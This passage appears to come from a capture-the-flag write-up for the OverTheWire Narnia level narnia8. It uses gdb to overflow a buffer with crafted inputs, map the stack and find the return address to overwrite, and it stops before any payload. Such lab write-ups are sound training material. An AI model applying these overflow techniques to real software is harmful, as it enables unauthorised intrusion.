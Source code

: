 Right before the printf function but after the for-loop looks to be a good place to create a breakpoint.

```
(gdb) break *func+122
Breakpoint 1 at 0x80484a7
(gdb) 
```
Let's do a test run.
```
(gdb) run $(python -c 'print "A"*19')
Starting program: /narnia/narnia8 $(python -c 'print "A"*19')

Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20xw $esp
0xffffd6c0:	0x08048580	0xffffd6d8[1]	0x00000014	0xf7e55fe3
0xffffd6d0:	0x00000000	0x002c307d	0x41414141[2]	0x41414141
0xffffd6e0:	0x41414141	0x41414141	0x00414141	0xffffd8e4[3]
0xffffd6f0:	0x00000002	0xffffd7b4	0xffffd718	0x080484cd[4]
0xffffd700:	0xffffd8e4[5]	0xf7ffd000	0x080484fb	0xf7fcc000

```
`[1]` is the location of `blok`, which points to `[2]`.

`[3]` is the location of `blah`:
```
(gdb) x/8xw 0xffffd8e4
0xffffd8e4:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd8f4:	0x00414141	0x4c454853	0x622f3d4c	0x622f6e69
```

`[4]` is the return address that we need to overwrite:
```
(gdb) x/4i 0x080484cd
   0x80484cd <main+31>:	jmp    0x80484e4 <main+54>
   0x80484cf <main+33>:	mov    eax,DWORD PTR [ebp+0xc]
   0x80484d2 <main+36>:	mov    eax,DWORD PTR [eax]
   0x80484d4 <main+38>:	mov    DWORD PTR [esp+0x4],eax
(gdb) 
```
`[5]` is the parameter `char * b`. It points to the same address as `[3]` because of the line `char *blah=b;`.  `blah` and `b` are different pointers that point to the same memory address. 

If we let the program continue, it will print our buffer of A's.
```
(gdb) cont
Continuing.
AAAAAAAAAAAAAAAAAAA
[Inferior 1 (process 77) exited normally]
(gdb) 
```
Let's try another buffer:
```
(gdb) run $(python -c 'print "A" * 20 + "BBBB"')
Starting program: /narnia/narnia8 $(python -c 'print "A" * 20 + "BBBB"')

Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20xw $esp
0xffffd6b0:	0x08048580	0xffffd6c8	0x00000014	0xf7e55fe3
0xffffd6c0:	0x00000000	0x002c307d	0x41414141	0x41414141
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0xffffd842[1]
0xffffd6e0:	0x00000002	0xffffd7a4	0xffffd708	0x080484cd
0xffffd6f0:	0xffffd8df[2]	0xf7ffd000	0x080484fb	0xf7fcc000
(gdb) cont
Continuing.
AAAAAAAAAAAAAAAAAAAAB���
[Inferior 1 (process 356) exited normally]
(gdb) 
```

[overthewire]: https://www.overthewire.org